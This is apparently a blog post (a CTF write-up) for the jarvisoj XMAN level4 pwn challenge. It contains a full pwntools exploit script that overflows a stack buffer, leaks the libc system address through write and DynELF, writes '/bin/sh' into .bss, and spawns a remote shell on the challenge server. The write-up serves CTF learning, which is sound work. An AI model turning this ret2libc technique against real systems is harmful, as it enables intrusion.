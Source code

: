 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level4
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level4.0f9cfa0b7bb6c0f9e030a5541b46e9f0

Address:
nc pwn2.jarvisoj.com 9880
```
<!-- more -->


### 0x01 可执行文件特征

```
file level4
checksec level4
chmod a+x ./level4
./level4
```

![](/assets/img/ctf/pwn/2017-06-22-jarvisoj-level4/0x00.png)


### 0x02 放到IDA分析

没有system调用，没有libc，接下来用write来泄漏信息，通过DynELF找到system地址

![](/assets/img/ctf/pwn/2017-06-22-jarvisoj-level4/0x01.png)

查看缓冲区

![](/assets/img/ctf/pwn/2017-06-22-jarvisoj-level4/0x02.png)


![](/assets/img/ctf/pwn/2017-06-22-jarvisoj-level4/0x03.png)


### 0x03 最终的exploit


```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

elf = ELF('./level4')
write_plt_addr = elf.plt['write']
read_plt_addr = elf.plt['read']
bss_base = elf.bss()
main_addr = elf.symbols['main']
junk = 'A' * (0x88 + 0x04)

Io = remote("pwn2.jarvisoj.com", 9880)

def leak(addr):
	payload = junk + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
	Io.send(payload)
	leaked = Io.recv(4)
	print '[%s] -> [%s] = [%s]' % (hex(addr), hex(u32(leaked)), repr(leaked))
	return leaked

d = DynELF(leak, elf = ELF('./level4'))  # 调用DynELF泄漏地址信息
system_addr = d.lookup('system', 'libc')  # 查找system的地址
print '[system()] -> [%s]' % (hex(system_addr))

payload = junk + p32(read_plt_addr) + p32(main_addr) + p32(0) + p32(bss_base) + p32(8)
Io.send(payload)

Io.send('/bin/sh\x00')  # 将字符串"/bin/sh\0"写入bss

payload = junk + p32(system_addr) + p32(0) + p32(bss_base)  # 调用system("/bin/sh")
Io.send(payload)

Io.interactive()
```

得到falg

![](/assets/img/ctf/pwn/2017-06-22-jarvisoj-level4/0x04.png)